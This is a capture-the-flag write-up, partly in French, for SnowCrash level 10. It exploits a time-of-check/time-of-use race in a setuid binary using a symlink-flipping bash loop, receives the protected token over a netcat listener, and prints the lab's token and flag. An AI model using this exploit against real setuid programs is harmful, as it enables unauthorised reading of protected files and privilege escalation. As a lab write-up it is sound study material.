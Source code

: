 # Level 10

</br></br>

## file list in home

```zsh
level10@SnowCrash:~$ ls -l
total 16
-rwsr-sr-x+ 1 flag10 level10 10817 Mar  5  2016 level10
-rw-------  1 flag10 flag10     26 Mar  5  2016 token
```

</br></br>

## execute file level10

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
```

</br></br>

## ltrace level10

```zsh
level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
        sends file to host if you have access to it
)    = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

</br></br>

## strings level10

```zsh
...
...
PTRh
UWVS
[^_]
%s file host
        sends file to host if you have access to it
Connecting to %s:6969 ..
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file ..
Damn. Unable to open file
...
...
```

Connecter à 6969, on a besoin d'écouter la porte 6969

```zsh
level10@SnowCrash:~$ ./level10
./level10 file host
        sends file to host if you have access to it
level10@SnowCrash:~$ ./level10 token localhost
You don't have access to token
level10@SnowCrash:~$ ltrace ./level10 token localhost
__libc_start_main(0x80486d4, 3, 0xbffff7d4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)  = 31
+++ exited (status 31) +++
```

on peut voir que level10 utilise access

</br></br>

## access

```zsh
level10@SnowCrash:~$ man access
...
...
 Warning: Using access() to check if a user is authorized to,  for  exam‐
       ple,  open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the  user  might  exploit  the  short  time  interval
       between  checking  and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be  avoided.   (In  the  example
       just  described,  a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)
...
...
```

par contre, on peut ouvrir level10

```zsh
level10@SnowCrash:~$ ./level10 level10 localhost
Connecting to localhost:6969 .. Unable to connect to host localhost
```

donc, on va executer token en utilisant race condition et symbolic link

</br></br>

## symbolic link et race condition

faire fichier link
ce fichier est symbolic link pour open (level10) et pour executer (token)

```zsh
level10@SnowCrash:/tmp/link$ vim makeSymLink.sh
level10@SnowCrash:/tmp/link$ ls
makeSymLink.sh
level10@SnowCrash:/tmp/link$ chmod +x ./makeSymLink.sh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
```

```sh
#!/bin/bash

while true
do
  ln -fs ~/level10 ./link
  ln -fs ~/token ./link
done
```

</br></br>

## execute

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
```

```zsh
level10@SnowCrash:/tmp/link$ ./makeSymLink.sh
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link
You don't have access to /tmp/link/link
Connecting to 192.168.56.101:6969 .. Unable to connect to host 192.168.56.101
You don't have access to /tmp/link/link^C
```

```zsh
level10@SnowCrash:~$ nc -lk 6969
Connected!
Sending file .. Damn. Unable to open fileUnable to read from file: %s
wrote file!You don't have access to %s
0����Lx���p��������������zR|
                            P���F
                                 J
��                                tx?;*2$"@�����B
  8`|���a�A
           �A�A�N0JA�A
                      ��A�������������������
���o�Ё                                      Є
�
 ��H������o���o�(.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
```

</br></br>

## get token

```zsh
level10@SnowCrash:~$ su flag10
Password:
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ su level11
Password:
level11@SnowCrash:~$
```
